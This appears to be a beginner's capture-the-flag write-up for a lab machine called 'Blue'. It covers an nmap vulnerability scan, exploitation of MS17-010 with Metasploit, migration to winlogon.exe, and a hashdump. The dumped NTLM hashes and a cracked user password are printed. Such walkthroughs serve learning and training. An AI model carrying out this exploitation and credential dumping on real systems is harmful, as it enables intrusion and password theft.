 # Blue

> Osama Albawab | April 20 2020

-------------------------------------

# 10.10.119.1

# using nmapscan we found that it has 4 ports open and vulnerable to MS17-010 /\ nmap -sV -vv --script vuln TARGET_IP /\ File can be found in nmap file in the directory!

# Vulnerable to MS17-010
> using metasploit i managed to get into the machine
> upgraded the shell to meterpreter shell
> we listed all the processes with command : PS
> then we migrated to the process name : winlogon.exe
> we dumped all the passwords on the system using : hashdump
  Passwords: `Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
  `
> User is Jon // His cracked password is alqfna22
> we used search -f [[FILE]] to search on windows



NOTE: This is my first time trying this...
      Although sometimes its frustraiting but i do like it overall



========================================================
# REFRENCE : 'https://www.youtube.com/watch?v=s6rwS7UuMt8'
========================================================
